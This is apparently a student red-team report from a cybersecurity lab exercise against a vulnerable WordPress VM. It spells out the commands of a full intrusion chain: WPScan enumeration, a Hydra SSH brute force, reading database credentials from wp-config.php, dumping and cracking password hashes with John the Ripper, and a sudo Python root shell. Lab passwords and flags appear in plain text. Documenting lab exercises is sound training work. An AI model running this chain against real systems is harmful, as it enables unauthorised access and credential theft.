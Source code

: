 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

$ nmap -A 192.168.1.0/24
  - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/5809680b4a9d44d4d4963528ca3bcff1116cee72/Images/Offense%20Images/nmap-ascan.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/TCP Open SSH
  - Port 80/TCP Open HTTP
  - Port 111/TCP Open rcpbind
  - Port 139/TCP Open netbios-ssn
  - Port 445/TCP Open netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
  - Improper configured SSH
  - WordPress Enumation
  - Weak Password Implementation
  - No file security permission implemented
  - Use of weak password salted hashes
  - Python root escalation privileges

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploits Used**
      - WPScan to enumerate users of the Target 1 WordPress site
       - wpscan --url http://192.168.1.110 --enumerate u
       - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8655bc671393f7d27d9d25ac768909c31c3b8594/Images/Offense%20Images/wpscanusers.png)
    - Targeting User Michael
      - Executed Hydra Brute Force Attack
        - The following command was performed:
        - hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh
        - Password: Michael
        - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/hydrabruteforcemichael.png)
    - Capturing Flag 1: After SSH Brute Force Attack as Michael I traversed through directories and files.
      - Found Flag1 in  var/www/html folder at root in service.html in a HTML comment below the footer.
      - Commands:
        - ssh michael@192.168.1.110
        - pw: michael
  - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/sshmichaelpassword.png)
        - cd ../
        - cd /var/www/html
        - ls -l
        - nano service.html
  - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/flag1.png)
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Same exploit covered in flag1 to gain access
      - Commands:
        - ssh michael@192.168.1.110
        - pw: michael
        - cd ../
        - cd /var/www
        - find / i-name flag*
        - cat flag2.txt
  - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/flag2hash.png)
  - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/flag2.png)
  - `flag3` : afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Previous exploit covered in flag1 and flag2
      - Captured flag3 Accessing MySQL database
        - Once having found wp-config.php and gaining access to the database credentials as Michael, MySQL was used to explore the database
        - the wp-config.php displayed DB_Password in plaintext
        - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/47ad8ccdf0e2d7a701b29fd857043666040aed6d/Images/Offense%20Images/wp-configphp.png)
        - flag3 was found in wp_posts table in the wordpress database.
        - Commands:
          - Connected to mysql: -u root -p R@v3nSecurity
          - show databases;
          - use wordpress;
          - show tables;
          - select * from wp_posts;
   - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/mysqlconnect.png)
   - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8a9ac76506c514988a6b20a129696a48ae0fc69e/Images/Offense%20Images/sqlshowdatabases.png)
   - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/529d90d142b66a08b4e6ba5bd769230e43681dcd/Images/Offense%20Images/mysqlshowtables.png)
  - `flag4` : 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Use of weak password salted hashes and Python root escalation privileges
      - Captured flag4 by retrieving user credentials from database, executed john the ripper to crack password hash and use Python Escalation Privileges to gain root access
        - Previously gained access to the database credentials as Michael from the sp-config.phpfile, cracking password hashes gathered from MySQL was the next step.
        - These user credentials are stored in the wp_users table of the wordpress database.
        - The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
        - Commands:
          - Connected to mysql: -u root -p R@v3nSecurity
          - SELECT ID, user_login, user_pass FROM wp_users;
        - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/8325e679b7615499ce833972057be8bd7ba43068/Images/Offense%20Images/stevenhashedsql.png)
        - When I exported the hashes, I saved them individually as stevenhash.txt and michaelhash.txt and ran them against John the Ripper to crack the hashes.
          - Command:
            - john stevenhash.txt
            - john michaelhash.txt; the execution of performing the john the ripper kept on going; but we already had the password from the previous activity.
            - [alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/33c3d21df349df89410d1cbbdf73db2f9914a7a7/Images/Offense%20Images/jtrstevenhash.png)
          - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then as Steven checking for privilege and escalating to root with Python
          - Command:
            - ssh steven@192.168.1.110
            - pw:pink84
            - sudo -l
            - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
            - cd /root
            - ls
            - cat flag4.txt
      - ![alt text](https://github.com/Juan-byte-megabyte/Rice-CyberSecurity-FinalProject/blob/33c3d21df349df89410d1cbbdf73db2f9914a7a7/Images/Offense%20Images/ravensteven.png)
